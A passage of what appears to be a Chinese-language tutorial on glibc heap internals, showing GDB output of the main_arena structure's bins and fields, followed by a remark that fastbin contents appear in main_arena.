<main_arena+680>, 0x7ffff7dd1dc8 <main_arena+680>, 0x7ffff7dd1dd8 <main_arena+696>, 0x7ffff7dd1dd8 <main_arena+696>, 0x7ffff7dd1de8 <main_arena+712>, 0x7ffff7dd1de8 <main_arena+712>, 0x7ffff7dd1df8 <main_arena+728>, 0x7ffff7dd1df8 <main_arena+728>, 0x7ffff7dd1e08 <main_arena+744>, 0x7ffff7dd1e08 <main_arena+744>, 0x7ffff7dd1e18 <main_arena+760>, 0x7ffff7dd1e18 <main_arena+760>, 0x7ffff7dd1e28 <main_arena+776>, 0x7ffff7dd1e28 <main_arena+776>, 0x7ffff7dd1e38 <main_arena+792>, 0x7ffff7dd1e38 <main_arena+792>, 0x7ffff7dd1e48 <main_arena+808>, 0x7ffff7dd1e48 <main_arena+808>, 0x7ffff7dd1e58 <main_arena+824>, 0x7ffff7dd1e58 <main_arena+824>, 0x7ffff7dd1e68 <main_arena+840>, 0x7ffff7dd1e68 <main_arena+840>, 0x7ffff7dd1e78 <main_arena+856>, 0x7ffff7dd1e78 <main_arena+856>, 0x7ffff7dd1e88 <main_arena+872>, 0x7ffff7dd1e88 <main_arena+872>, 0x7ffff7dd1e98 <main_arena+888>, 0x7ffff7dd1e98 <main_arena+888>, 0x7ffff7dd1ea8 <main_arena+904>, 0x7ffff7dd1ea8 <main_arena+904>, 0x7ffff7dd1eb8 <main_arena+920>, 0x7ffff7dd1eb8 <main_arena+920>, 0x7ffff7dd1ec8 <main_arena+936>, 0x7ffff7dd1ec8 <main_arena+936>, 0x7ffff7dd1ed8 <main_arena+952>, 0x7ffff7dd1ed8 <main_arena+952>, 0x7ffff7dd1ee8 <main_arena+968>, 0x7ffff7dd1ee8 <main_arena+968>, 0x7ffff7dd1ef8 <main_arena+984>, 0x7ffff7dd1ef8 <main_arena+984>, 0x7ffff7dd1f08 <main_arena+1000>, 0x7ffff7dd1f08 <main_arena+1000>, 0x7ffff7dd1f18 <main_arena+1016>, 0x7ffff7dd1f18 <main_arena+1016>, 0x7ffff7dd1f28 <main_arena+1032>, 0x7ffff7dd1f28 <main_arena+1032>, 0x7ffff7dd1f38 <main_arena+1048>, 0x7ffff7dd1f38 <main_arena+1048>, 0x7ffff7dd1f48 <main_arena+1064>, 0x7ffff7dd1f48 <main_arena+1064>, 0x7ffff7dd1f58 <main_arena+1080>, 0x7ffff7dd1f58 <main_arena+1080>, 0x7ffff7dd1f68 <main_arena+1096>, 0x7ffff7dd1f68 <main_arena+1096>, 0x7ffff7dd1f78 <main_arena+1112>, 0x7ffff7dd1f78 <main_arena+1112>, 0x7ffff7dd1f88 <main_arena+1128>, 0x7ffff7dd1f88 <main_arena+1128>, 0x7ffff7dd1f98 <main_arena+1144>, 0x7ffff7dd1f98 <main_arena+1144>, 0x7ffff7dd1fa8 <main_arena+1160>, 0x7ffff7dd1fa8 <main_arena+1160>, 0x7ffff7dd1fb8 <main_arena+1176>, 0x7ffff7dd1fb8 <main_arena+1176>, 0x7ffff7dd1fc8 <main_arena+1192>, 0x7ffff7dd1fc8 <main_arena+1192>, 0x7ffff7dd1fd8 <main_arena+1208>, 0x7ffff7dd1fd8 <main_arena+1208>, 0x7ffff7dd1fe8 <main_arena+1224>, 0x7ffff7dd1fe8 <main_arena+1224>, 0x7ffff7dd1ff8 <main_arena+1240>, 0x7ffff7dd1ff8 <main_arena+1240>, 0x7ffff7dd2008 <main_arena+1256>, 0x7ffff7dd2008 <main_arena+1256>, 0x7ffff7dd2018 <main_arena+1272>, 0x7ffff7dd2018 <main_arena+1272>, 0x7ffff7dd2028 <main_arena+1288>, 0x7ffff7dd2028 <main_arena+1288>, 0x7ffff7dd2038 <main_arena+1304>, 0x7ffff7dd2038 <main_arena+1304>, 0x7ffff7dd2048 <main_arena+1320>, 0x7ffff7dd2048 <main_arena+1320>, 0x7ffff7dd2058 <main_arena+1336>, 0x7ffff7dd2058 <main_arena+1336>, 0x7ffff7dd2068 <main_arena+1352>, 0x7ffff7dd2068 <main_arena+1352>, 0x7ffff7dd2078 <main_arena+1368>, 0x7ffff7dd2078 <main_arena+1368>, 0x7ffff7dd2088 <main_arena+1384>, 0x7ffff7dd2088 <main_arena+1384>, 0x7ffff7dd2098 <main_arena+1400>, 0x7ffff7dd2098 <main_arena+1400>, 0x7ffff7dd20a8 <main_arena+1416>, 0x7ffff7dd20a8 <main_arena+1416>, 0x7ffff7dd20b8 <main_arena+1432>, 0x7ffff7dd20b8 <main_arena+1432>, 0x7ffff7dd20c8 <main_arena+1448>, 0x7ffff7dd20c8 <main_arena+1448>, 0x7ffff7dd20d8 <main_arena+1464>, 0x7ffff7dd20d8 <main_arena+1464>, 0x7ffff7dd20e8 <main_arena+1480>, 0x7ffff7dd20e8 <main_arena+1480>, 0x7ffff7dd20f8 <main_arena+1496>, 0x7ffff7dd20f8 <main_arena+1496>, 0x7ffff7dd2108 <main_arena+1512>, 0x7ffff7dd2108 <main_arena+1512>, 0x7ffff7dd2118 <main_arena+1528>, 0x7ffff7dd2118 <main_arena+1528>, 0x7ffff7dd2128 <main_arena+1544>, 0x7ffff7dd2128 <main_arena+1544>, 0x7ffff7dd2138 <main_arena+1560>, 0x7ffff7dd2138 <main_arena+1560>, 0x7ffff7dd2148 <main_arena+1576>, 0x7ffff7dd2148 <main_arena+1576>, 0x7ffff7dd2158 <main_arena+1592>, 0x7ffff7dd2158 <main_arena+1592>, 0x7ffff7dd2168 <main_arena+1608>, 0x7ffff7dd2168 <main_arena+1608>, 0x7ffff7dd2178 <main_arena+1624>, 0x7ffff7dd2178 <main_arena+1624>, 0x7ffff7dd2188 <main_arena+1640>, 0x7ffff7dd2188 <main_arena+1640>, 0x7ffff7dd2198 <main_arena+1656>, 0x7ffff7dd2198 <main_arena+1656>, 0x7ffff7dd21a8 <main_arena+1672>, 0x7ffff7dd21a8 <main_arena+1672>...}, 
  binmap = {0, 0, 0, 0}, 
  next = 0x7ffff7dd1b20 <main_arena>, 
  next_free = 0x0, 
  attached_threads = 1, 
  system_mem = 135168, 
  max_system_mem = 135168
}
```

是吧，看到了吧，我们看到fastbin的内容出现在main_arena里面。